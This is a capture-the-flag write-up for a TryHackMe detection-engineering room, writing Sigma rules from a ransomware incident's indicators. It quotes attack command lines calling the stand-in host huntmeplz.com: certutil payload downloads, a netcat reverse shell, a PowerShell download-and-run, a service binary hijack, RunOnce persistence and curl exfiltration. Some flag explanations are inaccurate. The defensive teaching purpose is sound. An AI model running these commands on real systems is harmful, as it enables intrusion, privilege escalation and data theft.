



<p align='center'>
  
</p>
Room Link: https://tryhackme.com/room/sighunt

## About the Challenge

The provided Room falls under the category of Detection Engineering (Difficulty: **Medium** 🟨). In this challenge, we are given a set of IoCs from an Incident Report, which we will use to create Sigma rules. **Do Note:** The Sigma rule set must follow the "**Rule Creation Standards**".  

To test the Sigma rules, an interface called "Sighunt" is provided. You can connect to it using a VPN or an Attack Box. For reference, to aid in each rule creation, the "Sighunt" interface also provides the respective logs (the logs that indicate the breach).
Also, keep TryHackMe's Sigma cheatsheet from the previous room https://tryhackme.com/room/sigma, it will come in handy.
##### Readers NOTE: The paragraphs in *italics* and the "(given) Sections" are taken word-for-word from the challenge.

## Task 1 : Introduction
### Provided Scenario

_You are hired as a Detection Engineer for your organization. During your first week, a ransomware incident has just concluded, and the Incident Responders of your organization have successfully mitigated the threat. With their collective effort, the Incident Response (IR) Team provided the IOCs based on their investigation. Your task is to create Sigma rules to improve the detection capabilities of your organization and prevent future incidents similar to this._

### Indicators of Compromise (given)

| Attack Technique            | Indicators of Compromise                                                                                                                                                          |
| --------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| HTA payload                 | Parent Image: chrome.exe<br><br>Image: mshta.exe<br><br>Command Line: C:\Windows\SysWOW64\mshta.exe C:\Users\victim\Downloads\update.hta                                          |
| Certutil Download           | Image: certutil.exe<br><br>Command Line: certutil -urlcache -split -f http://huntmeplz.com/ransom.exe ransom.exe                                                                  |
| Netcat Reverse Shell        | Image: nc.exe<br><br>Command Line: C:\Users\victim\AppData\Local\Temp\nc.exe huntmeplz.com 4444 -e cmd.exe<br><br>MD5 Hash: 523613A7B9DFA398CBD5EBD2DD0F4F38                      |
| PowerUp Enumeration         | Image: powershell.exe<br><br>Command Line: powershell "iex(new-object net.webclient).downloadstring('http://huntmeplz.com/PowerUp.ps1'); Invoke-AllChecks;"                       |
| Service Binary Modification | Image: sc.exe<br><br>Command Line: sc.exe config SNMPTRAP binPath= "C:\Users\victim\AppData\Local\Temp\rev.exe huntmeplz.com 4443 -e cmd.exe"                                     |
| RunOnce Persistence         | Image: reg.exe<br><br>Command Line: reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v MicrosoftUpdate /t REG_SZ /d "C:\Windows\System32\cmdd.exe" |
| 7-zip Collection            | Image: 7z.exe<br><br>Command Line: 7z a exfil.zip * -p                                                                                                                            |
| cURL Exfiltration           | Image: curl.exe<br><br>Command Line: curl -d @exfil.zip http://huntmeplz.com:8080/                                                                                                |
| Ransomware File Encryption  | Image: ransom.exe<br><br>Target Filename: *.huntme                                                                                                                                |

_Based on the given incident report, the Incident Responders discovered the following attack chain:_

- *Execution of malicious HTA payload from a phishing link.*
- *Execution of Certutil tool to download Netcat binary.*
- *Netcat execution to establish a reverse shell.*
- *Enumeration of privilege escalation vectors through PowerUp.ps1.*
- *Abused service modification privileges to achieve System privileges.*
- *Collected sensitive data by archiving via 7-zip.*
- *Exfiltrated sensitive data through **cURL** binary.*
- *Executed ransomware with **huntme** as the file extension.*


### Rule Creation Standards (Given)

*The Detection Engineering Team follows a standard when creating a Sigma Rule. You may refer to the guidelines below.*

| Attack Technique            | Required Detection Fields                         |
| --------------------------- | ------------------------------------------------- |
| HTA payload                 | - EventID<br>- ParentImage<br>- Image             |
| Certutil Download           | - EventID<br>- Image<br>- CommandLine             |
| Netcat Reverse Shell        | - EventID<br>- Image<br>- CommandLine<br>- Hashes |
| PowerUp Enumeration         | - EventID<br>- Image<br>- CommandLine             |
| Service Binary Modification | - EventID<br>- Image<br>- CommandLine             |
| RunOnce Persistence         | - EventID<br>- Image<br>- CommandLine             |
| 7-zip Collection            | - EventID<br>- Image<br>- CommandLine             |
| cURL Exfiltration           | - EventID<br>- Image<br>- CommandLine             |
| Ransomware File Encryption  | - EventID<br>- TargetFilename                     |

----
## Task 2: Hunting Incident
Here's How the interface works.

<p align='center'>
  
</p>

There are two sections:  

- On the left is the text editor, which we will use to edit each related Sigma rule file.  
- On the right is **"Attack Chain Details"**, which is used to select and edit the respective rule for the attack chain. It also includes the **"View Log"** button, which helps in situations such as viewing the command executed by the attacker and using it as a reference to format a detection idea.

### Malicious Mshta

This rule was obvious and easy, but here are some guidelines to follow for the remaining rules as well. From the given **"Rule Creation Standard"**, use the required detection fields (`EventID`, `ParentImage`, `Image`). 

From the respective log, you will see that you need to be specific about the **`ParentImage`** and **`Image`** fields. The `chrome.exe` and `mshta.exe` entries in the log have these executable keywords at the end.  Why are we detecting `mshta` in the **Image** field instead of given IoC `update.hta`?  
Because the rule needs to be **generic**—it should work in all cases where the **ParentImage** is `chrome.exe` and something is executed by `mshta`.

**Example:**  
To detect `mshta.exe` in the path:  
`Image = C:\Windows\SysWOW64\mshta.exe `  

- `Image: "mshta.exe"` ❌ will not work  
- `Image | endswith: "mshta.exe"` ✅ works correctly using the **Value Modifier**


```yml
title: mshta execution SUS
id: # random
status: Experimental
description: Execution of malicious HTA payload from a phishing link.
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'  
    ParentImage|endswith: "chrome.exe"
    Image|endswith: "mshta.exe"
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT, 
fields: #List of associated fields that are important for the detection
```

### Certutil Download

We will approach this rule the same way as above. From the given **"Rule Creation Standard"**, use the required detection fields (`EventID`, `ParentImage`, `CommandLine`).  

When detecting the **`CommandLine`** field, we should use the **"contains"** value modifier to recognize suspicious patterns such as `--urlcache`, `-split`, and `-f`.  

**Malicious Example:**  
`certutil -urlcache -split -f http://huntmeplz.com/nc.exe C:\Users\victim\AppData\Local\Temp\nc.exe` ❌  
This command downloads a malicious binary (`nc.exe`) from a remote server and saves it locally, which is a clear indicator of compromise.  

**Benign Example:**  
`certutil -urlcache -f http://example.com/legitfile.txt C:\Users\victim\Documents\legitfile.txt` ✅  
Here, `certutil` is being used to download a legitimate text file for administrative or troubleshooting purposes.  

##### Why `--split` is Malicious Here
The `--split` flag instructs **certutil** to break the downloaded file into smaller chunks before writing it to disk. While this functionality can be useful in legitimate scenarios (e.g., handling large files), attackers abuse it to:  
- **Evade detection**: Splitting the payload into chunks makes it harder for security tools to identify the file as malicious during transfer.  
- **Reassemble malware**: Once downloaded, the chunks are combined into a complete executable (like `nc.exe`), which is then run by the attacker.  
- **Bypass network monitoring**: Smaller fragments may slip past intrusion detection systems that are tuned to catch large suspicious downloads.

##### Key Point:
By focusing detection on the **pattern of arguments** (`--urlcache`, `-split`, `-f`) rather than the specific file name, the rule remains **generic** and can catch malicious activity across different scenarios. Analysts must then review the **context** (domain reputation, file type, purpose) to distinguish between malicious and benign usage.


```yml
title: CertUtils LOLBINS
id: # random
status: Experimental
description: Execution of Certutil tool to download Netcat binary.
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'   
    Image|endswith: "certutil.exe"
    CommandLine|contains: 
     - ' -urlcache '
     - ' -split '
     - ' -f '
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT 
fields: #List of associated fields that are important for the detection

```


### Netcat Execution

From the given **"Rule Creation Standard"**, this rule should use the required detection fields (`EventID`, `Image`, `CommandLine`, `Hashes`) to identify suspicious Netcat activity.  
here's the command executed by attacker `CommandLine : "C:\Users\victim\AppData\Local\Temp\nc.exe" huntmeplz.com 4444 -e cmd.exe`

- **Selection1**:  
  - Detects `EventID: 1` (process creation).  
  - Matches when the process image ends with `\Temp\nc.exe`.  
  - Checks the `CommandLine` for arguments that indicate reverse shell behavior:  
    - `nc.exe` → confirms Netcat execution.  
    - `-e` → instructs Netcat to execute a program after connection.  
    - `cmd.exe` → specifies the Windows command shell, enabling remote command execution.  

- **Selection2**:  
  - Detects a known malicious hash (`523613A7B9DFA398CBD5EBD2DD0F4F38`) associated with Netcat binaries often used in attacks.  

- **Condition**:  
  - The rule triggers if **either Selection1 or Selection2** is true, ensuring detection by behavior or by known malicious file hash.
##### Malicious Behavior ❌
Netcat (`nc.exe`) is being abused to establish a **reverse shell**.  
- The attacker runs Netcat with `-e cmd.exe`, which allows them to remotely execute commands on the victim machine.  
- This is a classic post-exploitation technique used to gain interactive access and control.  
- The binary is placed in the `Temp` directory, a common tactic for staging malicious tools.  
##### Benign Behavior ✅
Netcat itself is a legitimate utility often used by administrators for **network troubleshooting** (e.g., testing connections, transferring files).  
- Normal usage might include commands like `nc.exe -l -p 4444` to listen on a port, or simple file transfers without the `-e` flag.  
- The presence of `-e cmd.exe` is what makes this case malicious, since it directly enables remote shell execution.  
##### Key Point
This rule is designed to be **generic yet precise**:  
- It detects Netcat reverse shell attempts by monitoring both **command-line arguments** and **known malicious hashes**.  
- Analysts should differentiate between **legitimate Netcat usage** (network diagnostics) and **malicious reverse shell activity** (use of `-e cmd.exe` in suspicious directories).

```yml
title: Netcat reverse shell
id: # Random
status: Experimental
description: Netcat execution to establish a reverse shell.
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection1:
    EventID: '1'
    Image|endswith: '\Temp\nc.exe'
    CommandLine|contains|all: 
     - 'nc.exe '
     - ' -e '
     - ' cmd.exe '
  selection2:
    Hashes|contains: "523613A7B9DFA398CBD5EBD2DD0F4F38" 
  condition: selection1 or selection2 #Action to be taken. Can use condition operators such as OR, AND, NOT, 
```


### PowerUp Enumeration
From the given **"Rule Creation Standard"**, this rule should use the required detection fields (`EventID`, `ParentImage`, `CommandLine`) to identify suspicious PowerShell activity related to privilege escalation enumeration.  

- **Selection**:  
  - Detects `EventID: 1` (process creation).  
  - Matches when the process image ends with `\powershell.exe`.  
  - Checks the `CommandLine` for arguments that indicate execution of PowerUp.ps1:  
    - `iex(new-object net.webclient).` → instructs PowerShell to create a WebClient object and execute inline code.  
    - `Invoke-AllChecks;` → runs PowerUp’s built-in function to enumerate privilege escalation vectors.  
##### Malicious Behavior ❌
The command:  
`powershell "iex(new-object net.webclient).downloadstring('http://huntmeplz.com/PowerUp.ps1'); Invoke-AllChecks;"`

- Downloads and executes **PowerUp.ps1** directly from a remote, untrusted domain (`huntmeplz.com`).  
- `Invoke-AllChecks` runs a full privilege escalation audit, allowing attackers to identify misconfigurations, vulnerable services, or exploitable permissions.  
- This is a common **post-exploitation technique** used to escalate privileges after initial access.  
##### Benign Behavior ✅
PowerUp.ps1 is part of the **PowerSploit framework**, which can be used legitimately by penetration testers or administrators in controlled environments.  
- In benign cases, it may be executed from a **local, trusted path** (e.g., `C:\Tools\PowerUp.ps1`) rather than downloaded from the internet.  
- Administrators may use `Invoke-AllChecks` during **security assessments** to identify privilege escalation risks in their own environment.  
- The difference lies in **context**: trusted source, authorized usage, and controlled environment vs. attacker-controlled domain and unauthorized execution.  
##### Key Point
This rule is designed to detect **privilege escalation enumeration** through PowerUp.ps1 by monitoring suspicious PowerShell command-line patterns.  
- Malicious usage is characterized by **remote download and execution** from untrusted domains.  
- Benign usage may occur in **red team or security testing scenarios**, but analysts should validate the **source of the script** and the **intent of execution** before confirming malicious activity.

```yml
title: Privilege escalation PowerUp
id: # Random
status: Experimental
description: Enumeration of privilege escalation vectors through PowerUp.ps1.
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'
    Image|endswith: '\powershell.exe'
    CommandLine|contains|all:
     - 'iex(new-object net.webclient).'
     - ' Invoke-AllChecks;'
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT,
```


### Service Binary Modification
From the given **"Rule Creation Standard"**, this rule uses the required detection fields (`EventID`, `Image`, `CommandLine`) to identify suspicious service modification activity.  

- **Selection**:  
  - Detects `EventID: 1` (process creation).  
  - Matches when the process image ends with `\sc.exe`.  
  - Checks the `CommandLine` for arguments that indicate service reconfiguration:  
    - `binPath=` → specifies the binary path for the service.  
    - `config` → modifies the service configuration.  
    - `-e` → executes with elevated privileges.  
##### Malicious Behavior ❌
Attackers abuse **`sc.exe config`** with `binPath=` to replace a legitimate service binary with a malicious executable.  
- This allows the attacker to run their payload with **SYSTEM privileges**, effectively escalating rights.  
- The `Temp` or non-standard paths for service binaries are strong indicators of compromise.  
##### Benign Behavior ✅
Administrators may legitimately use `sc.exe config` to:  
- Update service paths during software upgrades.  
- Reconfigure services for troubleshooting or migration.  
- Apply changes to service startup parameters.  

The difference lies in **context**:  
- Benign usage points to trusted binaries in standard directories (e.g., `C:\Program Files\...`).  
- Malicious usage involves suspicious paths, executables dropped in `Temp`, or unexpected privilege escalation attempts.  
##### Key Point
This rule is designed to detect **service binary modification** attempts that could lead to privilege escalation. Analysts should validate whether the **binary path** points to a trusted application or a suspicious payload before confirming malicious activity.

```yml
title: Service Binary Modification
id: # Random
status: Experimental
description: Abused service modification privileges to achieve System privileges.
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'
    Image|endswith: '\sc.exe'
    CommandLine|contains|all:
     - ' binPath= '
     - ' config '
     - ' -e '
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT, 
```


### RunOnce Persistence
From the given **"Rule Creation Standard"**, this rule uses the required detection fields (`EventID`, `Image`, `CommandLine`) to identify suspicious registry modifications that establish persistence.  

- **Selection**:  
  - Detects `EventID: 1` (process creation).  
  - Matches when the process image ends with `\reg.exe`.  
  - Checks the `CommandLine` for arguments that indicate registry key modification:  
    - `add` → adds a new registry entry.  
    - `/v` → specifies the value name.  
    - `/t REG_SZ` → sets the type to string.  
##### Malicious Behavior
Command observed:  
`reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v MicrosoftUpdate /t REG_SZ /d "C:\Windows\System32\cmdd.exe"` ❌  

- This adds a **RunOnce registry key** that executes `cmdd.exe` on the next system startup.  
- Attackers abuse RunOnce keys to maintain persistence, ensuring their payload runs automatically after reboot.  
- The use of a suspicious binary (`cmdd.exe`) in `System32` is a strong indicator of compromise. 
##### Benign Behavior ✅
Administrators or legitimate software installers may use **RunOnce keys** to:  
- Execute setup tasks after reboot.  
- Apply configuration changes that only need to run once.  
- Launch trusted applications during system updates.  

The difference lies in **context**:  
- Benign usage points to trusted executables (e.g., `setup.exe` from Microsoft or vendor software).  
- Malicious usage involves unknown or suspicious binaries masquerading as legitimate updates. 
##### Key Point
This rule is designed to detect **registry-based persistence** via RunOnce keys. Analysts should validate whether the **binary path** belongs to a trusted application or an attacker-controlled payload before confirming malicious activity.

```yml
title: RunOnce Persistance
id: # random
status: Experimental
description: Registry Key modification to maintain Persistance
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'
    Image|endswith: '\reg.exe'
    CommandLine|contains|all:
     - ' add '
     - ' REG_SZ '
     - ' /v '
     - ' /t '
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT, 
fields: #List of associated fields that are important for the detection
```

### 7z Archive Collection
From the given **"Rule Creation Standard"**, this rule uses the required detection fields (`EventID`, `Image`, `CommandLine`) to identify suspicious archiving activity with 7-Zip.  

- **Selection**:  
  - Detects `EventID: 1` (process creation).  
  - Matches when the process image ends with `\7z.exe`.  
  - Checks the `CommandLine` for arguments that indicate archiving with password protection:  
    - `a` → add files to a new archive.  
    - `-p` → sets a password for the archive, often used to conceal contents.  
##### Malicious Behavior ❌
Command observed:  
`7z a exfil.zip * -p` 
- This creates a compressed archive (`exfil.zip`) of all files (`*`) and protects it with a password.  
- Attackers often use this technique to **collect and stage sensitive data** before exfiltration.  
- Password protection (`-p`) makes it harder for defenders to inspect the archive contents, aiding in data theft.  
##### Benign Behavior ✅
7-Zip is a legitimate utility widely used for:  
- Compressing files to save storage space.  
- Creating password-protected archives for secure file sharing.  
- Routine administrative tasks like packaging logs or backups.  

The difference lies in **context**:  
- Benign usage involves archiving trusted files for internal use or secure sharing.  
- Malicious usage involves archiving large sets of sensitive data (e.g., `*` wildcard) with password protection, often followed by exfiltration attempts.  
##### Key Point
This rule is designed to detect **data collection and staging** via 7-Zip. Analysts should validate whether the **archive target** and **password usage** are consistent with legitimate administrative activity or indicative of **data exfiltration attempts**.

```yml
title: 7z Archive Collection
id: # random
status: Experimental
description: Collected sensitive data by archiving via 7-zip. (compress before sending out)
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'
    Image|endswith: '\7z.exe'
    CommandLine|contains:
     - ' a '
     - ' -p '
     
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT, 
```


### Curl Data Exfiltration
From the given **"Rule Creation Standard"**, this rule uses the required detection fields (`EventID`, `Image`, `CommandLine`) to identify suspicious data exfiltration attempts using the cURL binary.  

- **Selection**:  
  - Detects `EventID: 1` (process creation).  
  - Matches when the process image ends with `\curl.exe`.  
  - Checks the `CommandLine` for arguments that indicate data upload:  
    - `-d` → sends data in an HTTP POST request.  
##### Malicious Behavior ❌
Command observed:  
`curl -d @exfil.zip http://huntmeplz.com:8080/` 
- This command uploads the contents of `exfil.zip` to a remote server controlled by the attacker.  
- The `-d @exfil.zip` syntax tells cURL to read the file and send it as POST data, effectively **exfiltrating sensitive data**.  
- The use of a suspicious domain (`huntmeplz.com`) and non-standard port (`8080`) further indicates malicious intent.  
##### Benign Behavior ✅
cURL is a legitimate utility widely used for:  
- Sending API requests with small data payloads (e.g., `curl -d "username=test" http://api.example.com/login`).  
- Uploading configuration files or logs to trusted internal servers.  
- Routine administrative tasks in development or testing environments.  

The difference lies in **context**:  
- Benign usage typically involves small, structured data sent to trusted domains.  
- Malicious usage involves bulk data (archives, sensitive files) sent to **untrusted external servers**.  
##### Key Point
This rule is designed to detect **data exfiltration attempts** via cURL. Analysts should validate whether the **destination domain** and **data type** are consistent with legitimate operations or indicative of **unauthorized data theft**.

```yml
title: cURL Data Exfiltration
id: # random
status: Experimental
description: To Detect exfiltrated of sensitive data through cURL binary.
author: PhantomHertz
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '1'
    Image|endswith: '\curl.exe'
    CommandLine|contains:
     - ' -d '
  condition: selection #Action to be taken. Can use condition operators such as OR, AND, NOT, 
fields: #List of associated fields that are important for the detection
```

### Ransomware File Encryption
From the given **"Rule Creation Standard"**, this rule uses the required detection fields (`EventID`, `TargetFilename`) to identify suspicious file encryption activity.  

A strange thing I found about the last challenge is that even after I wrote the rule correctly according to the **"Rule Creation Standards"**, it was still giving the error **"String: ransom"**.  

<p align='center'>
  
</p>

After trying a few times, I thought maybe it was checking for the literal string **"ransom"**, so I changed and removed all the ransom-related words.

```yml
title: Suspicious File Encryption Activity
id: 12312-454645-3233
status: Experimental
description: Detects files being created or renamed with uncommon extensions, which may indicate encryption activity.
author: PhantomHertz
date: # Date when the rule was written
modified: # Date when the rule was last updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '11'
    TargetFilename|endswith: ".huntme"
  condition: selection  # Action to be taken. Can use condition operators such as OR, AND, NOT
fields:
  - EventID
  - TargetFilename
```

<p align='center'>
  
</p>

---